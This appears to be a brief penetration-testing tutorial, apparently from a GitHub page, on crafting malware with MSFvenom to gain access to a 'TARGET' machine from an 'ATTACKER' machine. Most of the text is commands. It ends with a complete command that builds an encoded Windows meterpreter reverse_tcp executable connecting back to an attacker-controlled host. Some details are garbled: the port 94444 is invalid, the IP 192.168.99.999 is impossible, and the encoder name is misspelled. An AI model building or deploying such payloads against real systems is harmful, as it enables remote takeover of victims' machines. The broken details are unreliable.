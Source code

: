 To gain access to the TARGET remote machine, we have to create the malware which will grant our ATTACKER machine access to exploit processes on the TARGET machine.

To craft the malware, we make use of the MSFvenom commands.

**MSFvenom** is a penetration testing tool used to create payload for exploitation and post-exploitation.

we make use of the help page of MSFvenom to craft a proper malware.
```
msfvenom -h
```
A proper malware has 4 parts; Payload , Platform, Encoder & File format.

To list out multiple payloads, platforms, encoders on the MSFvenom page, we use the command; 
```
msfvenom -l payloads
```
```
msfvenom -l platforms
```
```
msfvenom -l encoders
```

The general formula for crafting the basic malware will also involve the IP address to be used and a suitable port number
```
msfvenom -p (any payload) LHOST=(kali_IP) LPORT=94444 or 8080) -e (any encoder) --platform (any platform) -f (any file format) > (a unique filename).(file format)
```

For example, here is a command to create a malware with all the elements in the general formula being applied
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.99.999 LPORT=4444 -e x86/call4_dword_xor --platform windows -f exe > meter_revtcp.exe
```
